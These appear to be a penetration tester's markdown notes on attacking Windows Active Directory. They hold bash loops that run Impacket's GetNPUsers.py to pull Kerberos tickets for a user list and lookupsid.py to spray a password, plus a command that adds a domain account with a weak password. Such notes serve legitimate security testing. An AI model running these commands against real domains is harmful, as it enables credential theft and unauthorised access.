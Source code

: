 #### Where to find Domain
![[Pasted image 20220106180618.png]]

![[Pasted image 20220106180711.png]]

#### GetNPUsers
Have list of users, spray for Kerberos ticket
```bash - kali
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip $TARGET $DOMAIN/${user} | grep -v Impacket; done
```

#### lookupsid
Have password, dictionary user spray
```bash - Kali
for user in $(cat users.txt); do lookupsid.py $DOMAIN/$USER:'$PASSWORD'@$TARGET;done
```

#### quick win

```bash - kali
net user foo pass123 /add /domain
```

#### Username creator
[GitHub - urbanadventurer/username-anarchy: Username tools for penetration testing](https://github.com/urbanadventurer/username-anarchy)

#### Mindmap
https://www.xmind.net/m/5dypm8/#
![[Pasted image 20220117093957.png|1200]]

